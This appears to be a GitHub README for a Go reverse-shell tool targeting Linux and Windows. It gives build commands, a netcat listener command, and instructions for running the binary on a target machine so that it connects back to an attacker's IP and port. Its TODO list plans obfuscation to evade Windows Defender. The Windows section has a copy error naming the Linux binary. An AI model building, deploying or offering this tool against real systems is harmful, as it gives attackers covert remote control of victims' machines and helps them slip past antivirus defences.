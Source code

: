 # GoRevShells
Basic reverse shell for linux and windows written in Go. Based off of @yougg's https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e

## How to run (basic compilation; plenty of guides online on how to specify target operating system & architecture)
```
$ git clone https://github.com/NihilistPenguin/GoRevShells.git
$ cd GoRevshells
```
#### For linux target:
```
$ cd linux
$ GOOS=linux go build linrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ ./linrev IP:PORT` or `$ ./linrev` (uses value set in *const default_host* of linrev.go file)

#### For windows target:
```
$ cd windows
$ GOOS=windows go build winrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ .\winrev IP:PORT` or `$ .\linrev` (uses value set in *const default_host* of linrev.go file)


## TODO:
- add parameter for verbose output
- test it with obfuscator against Windows Defender
- other stuff I can't think of right now

